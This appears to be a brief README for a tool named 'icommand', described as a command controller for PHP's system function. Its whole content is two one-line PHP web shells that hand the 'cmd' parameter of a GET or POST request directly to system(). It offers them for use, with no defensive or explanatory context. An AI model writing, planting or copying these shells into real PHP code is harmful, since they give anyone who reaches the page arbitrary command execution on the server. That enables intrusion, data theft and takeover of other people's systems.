 ### icommand - command controller for PHP system function
---------------------------------------------------------

- icommand works for **POST** and **GET** requests:
        <?php system($_GET['cmd']); ?>
        <?php system($_POST['cmd']); ?> 

